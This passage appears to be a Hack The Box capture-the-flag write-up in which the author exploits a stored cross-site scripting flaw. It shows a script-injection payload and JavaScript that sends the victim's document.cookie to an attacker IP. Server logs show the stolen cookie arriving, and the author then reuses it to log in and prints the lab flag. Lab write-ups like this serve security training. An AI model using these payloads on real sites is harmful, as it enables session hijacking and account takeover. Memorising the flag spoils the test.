 ```js
document.location='http://10.10.15.141/index.php?c='+document.cookie; 
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

Run the server and register again using this payload:

```js
"><script src=http://IP/script.js></script>
```

We will see the following output in our server:

```
[Thu Jan 30 22:56:13 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 [200]: GET /script.js
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Closing
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Closing
```

We successfully managed to steal the cookie, let's visit `/login.php` and use the cookie:


![Pasted image 20250130175924.png](../../../../IMAGES/Pasted%20image%2020250130175924.png)

We'll successfully log in:

![Pasted image 20250130175943.png](../../../../IMAGES/Pasted%20image%2020250130175943.png)

Flag is `HTB{4lw4y5_53cur3_y0ur_c00k135}`
